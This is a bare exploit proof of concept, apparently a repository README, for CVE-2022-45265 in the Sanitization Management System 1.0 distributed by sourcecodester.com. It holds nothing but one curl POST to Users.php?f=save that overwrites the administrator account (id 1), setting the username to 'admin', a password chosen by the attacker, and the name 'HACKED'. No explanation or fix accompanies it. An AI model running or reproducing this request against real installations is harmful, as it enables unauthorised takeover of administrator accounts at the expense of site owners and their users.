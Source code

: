 # CVE-2022-45265

In the Sanitization Management System (1.0) distributed by sourcecodester.com 

```bash
curl --location --request POST 'http://localhost/php-sms/classes/Users.php?f=save' \
--form 'id="1"' \
--form 'firstname="HACKED"' \
--form 'lastname="Administrator"' \
--form 'username="admin"' \
--form 'password="maikroservicewashere"'
```
